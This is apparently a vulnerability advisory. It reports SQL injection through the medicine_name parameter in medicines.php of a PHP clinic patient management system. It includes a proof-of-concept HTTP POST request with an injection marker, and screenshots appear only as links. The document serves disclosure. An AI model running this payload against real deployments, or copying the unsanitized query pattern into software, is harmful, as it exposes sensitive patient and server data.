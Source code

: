 ## Clinic's Patient Management System has SQL injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/medicines.php
## describe
Unrestricted SQL injection attacks exist in inventory management systems. The parameters that can be controlled are as follows: medicine_name, this function executes the medicine_name parameters into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The medicine_name parameter in medicines.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

<img width="1301" alt="image" src="https://github.com/user-attachments/assets/a4a6f81d-066a-48bc-8128-9fd3c3c2d22d">

Injection via the parameter medicine_name
POC
```
POST /pms/medicines.php?message=Medicine%20added%20successfully. HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/medicines.php?message=Medicine%20added%20successfully.
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

medicine_name=22*&save_medicine=
```
<img width="1692" alt="image" src="https://github.com/user-attachments/assets/1bfe0b13-a90d-4d14-84fd-71b1fda15d9b">

<img width="1117" alt="image" src="https://github.com/user-attachments/assets/b2737689-82c6-4a72-9410-a954dd145a3c">







